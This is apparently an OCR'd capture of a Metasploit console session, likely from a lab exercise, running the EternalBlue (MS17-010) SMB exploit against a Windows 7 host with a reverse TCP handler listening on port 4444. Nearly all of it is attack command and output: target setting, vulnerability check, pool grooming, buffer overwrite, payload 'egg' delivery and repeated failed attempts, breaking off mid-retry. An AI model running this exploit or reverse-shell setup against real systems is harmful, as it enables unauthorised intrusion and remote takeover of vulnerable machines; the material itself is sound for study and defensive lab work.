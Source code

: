 # show options

RHOSTS => 10.201.21.43

# msf exploit(windows/smb/ms17_010_eternalblue) > run

msf exploit(windows/smb/ms17*010_eternalblue) > run
[*] Started reverse TCP handler on 192.168.65.3:4444
[*] 10.201.21.43:445 - Using auxiliary/scanner/smb/smb*ms17_010 as check
[+] 10.201.21.43:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
/usr/share/metasploit-framework/vendor/bundle/ruby/3.3.0/gems/recog-3.1.21/lib/recog/fingerprint/regexp_factory.rb:34: warning: nested repeat operator '+' and '?' was replaced with '\*' in regular expression
[*] 10.201.21.43:445 - Scanned 1 of 1 hosts (100% complete)
[+] 10.201.21.43:445 - The target is vulnerable.
[*] 10.201.21.43:445 - Connecting to target for exploitation.
[+] 10.201.21.43:445 - Connection established for exploitation.
[+] 10.201.21.43:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.21.43:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.21.43:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.201.21.43:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.201.21.43:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1  
[+] 10.201.21.43:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.21.43:445 - Trying exploit with 12 Groom Allocations.
[*] 10.201.21.43:445 - Sending all but last fragment of exploit packet
[*] 10.201.21.43:445 - Starting non-paged pool grooming
[+] 10.201.21.43:445 - Sending SMBv2 buffers
[+] 10.201.21.43:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.21.43:445 - Sending final SMBv2 buffers.
[*] 10.201.21.43:445 - Sending last fragment of exploit packet!
[*] 10.201.21.43:445 - Receiving response from exploit packet
[+] 10.201.21.43:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.21.43:445 - Sending egg to corrupted connection.
[*] 10.201.21.43:445 - Triggering free of corrupted buffer.
[-] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.201.21.43:445 - Connecting to target for exploitation.
[+] 10.201.21.43:445 - Connection established for exploitation.
[+] 10.201.21.43:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.201.21.43:445 - CORE raw buffer dump (42 bytes)
[*] 10.201.21.43:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73 Windows 7 Profes
[*] 10.201.21.43:445 - 0x00000010 73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76 sional 7601 Serv
[*] 10.201.21.43:445 - 0x00000020 69 63 65 20 50 61 63 6b 20 31 ice Pack 1  
[+] 10.201.21.43:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.201.21.43:445 - Trying exploit with 17 Groom Allocations.
[*] 10.201.21.43:445 - Sending all but last fragment of exploit packet
[*] 10.201.21.43:445 - Starting non-paged pool grooming
[+] 10.201.21.43:445 - Sending SMBv2 buffers
[+] 10.201.21.43:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.201.21.43:445 - Sending final SMBv2 buffers.
[*] 10.201.21.43:445 - Sending last fragment of exploit packet!
[*] 10.201.21.43:445 - Receiving response from exploit packet
[+] 10.201.21.43:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.201.21.43:445 - Sending egg to corrupted connection.
[*] 10.201.21.43:445 - Triggering free of corrupted buffer.
[-] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.201.21.43:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.201.21.43:445 - Connecting to target for exploitation.
[+] 10.201.21.43:445 - Connection established for exploitation.